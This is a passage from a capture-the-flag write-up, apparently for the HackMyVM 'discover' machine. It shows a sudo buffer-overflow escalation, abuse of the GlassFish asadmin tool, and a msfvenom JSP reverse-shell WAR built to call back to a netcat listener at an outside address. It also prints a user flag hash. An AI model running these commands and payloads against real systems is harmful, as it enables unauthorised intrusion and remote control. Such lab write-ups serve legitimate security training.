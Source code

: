     Sudoers entry:
        RunAsUsers: discover
        Options: !authenticate
        Commands:
            /opt/overflow
>
    www-data@debian:/tmp$ sudo -u discover /opt/overflow $(python3 stdout.py)
    sudo -u discover /opt/overflow $(python3 stdout.py)
    bash: warning: command substitution: ignored null byte in input
    $ whoami
    whoami
    discover
    $cat /home/discover/User.txt 
    c7d0a8de1e03b25a6f7ed2d91b94dad6

Let's see what commands we can run as root.

    discover@debian:/opt/glassfish6/bin$ sudo -ll
    sudo -ll
    Matching Defaults entries for discover on debian:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User discover may run the following commands on debian:

    Sudoers entry:
        RunAsUsers: root
        Options: !authenticate
        Commands:
            /opt/glassfish6/bin/asadmin

Checking for asadmin commands, using **https://glassfish.org/docs/5.1.0/reference-manual/list-commands.html** we can view what commands we can run on the service.

    $ sudo /opt/glassfish6/bin/asadmin create-domain domain2
    username: admin, password: admin
    $ sudo /opt/glassfish6/bin/asadmin --port 4848 enable-secure-admin
    $ $ sudo /opt/glassfish6/bin/asadmin start-domain domain2

Going to **http://discover.hmv:4848** we can now log in with the credentials we created the domain with (admin:admin).

![image](https://user-images.githubusercontent.com/76552238/191776208-f601fdcc-957c-4c59-88bf-3ee08e382a27.png)

![image](https://user-images.githubusercontent.com/76552238/191776416-7dea16bd-52c3-4a74-800b-e8288ed63e0f.png)

We now have access to the admin panel. Going to the "***Applications***" tab, we can add a new application.
Using this [article][3] I was able to get a reverse shell by uploading a war file to the remote machine.

    Local Machine:
    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.27 LPORT=5555 -f war > exploit.war 

    $ nc -lnvp 5555
    listening on [any] 5555 ...


[1]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php"
[2]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python"
[3]: "https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/"